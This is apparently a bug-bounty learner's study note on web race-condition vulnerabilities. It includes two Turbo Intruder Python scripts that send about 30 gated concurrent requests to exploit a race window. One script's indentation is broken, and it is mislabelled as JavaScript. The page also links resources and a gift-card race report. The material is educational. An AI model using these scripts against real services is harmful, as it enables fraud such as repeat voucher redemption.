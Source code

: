`7 January 2023`
## **Day 21 What I Have Learned**
***
## **Race Condition**
- Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events.
- It Happens When you are able to send Multiple Requests at the same time and receive a success response on both 
- e.g Bob has $10 and wants to deposit $10 with a Voucher,Bob Can Send Two request at the same time with the same Voucher,if they both become successful,Bob has Now $30 instead of $20.
***
## **Useful Burp Extension**
1. [Turbo Intruder](https://github.com/PortSwigger/turbo-intruder).
- Send request to turbo intruder.
- Use this python code as a payload of the turbo intruder.
``` js
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                        concurrentConnections=30,
                        requestsPerConnection=30,
                        pipeline=False
                        )

for i in range(30):
    engine.queue(target.req, i)
        engine.queue(target.req, target.baseInput, gate='race1')


    engine.start(timeout=5)
engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
- Now set the external HTTP header x-request: %s (This is needed by the turbo intruder)
- Click "Attack"
- See multiple 200 OK responses
2. Turbo Intruder 2 Requests Examples
- This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.
``` js 
def queueRequests(target, wordlists): 
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=30, 
                           requestsPerConnection=100, 
                           pipeline=False 
                           ) 
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    ''' 

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30): 
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)
```
3.You can Find More templates Installed By default in Turbo Intruder.
***
## **Resources**
- [Race Conditions and How to Prevent Them](https://www.youtube.com/watch?v=MqnpIwN7dz0).
- [Turbo Intruder: Embracing the billion-request attack](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack).
- [Race Condition Bug In Web App: A Use Case](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e).
- [Race Condition](https://book.hacktricks.xyz/pentesting-web/race-condition#oauth2-eternal-persistence).
- [RACE Condition vulnerability found in bug-bounty program](https://pravinponnusamy.medium.com/race-condition-vulnerability-found-in-bug-bounty-program-573260454c43).
- [Test Web Race Conditions](https://securingtomorrow.mcafee.com/technical-how-to/testing-race-conditions-web-applications/).
## **Reports**
- [Race Condition allows to redeem multiple times gift cards which leads to free "money"](https://hackerone.com/reports/759247) ($1,500).
***
## **The End**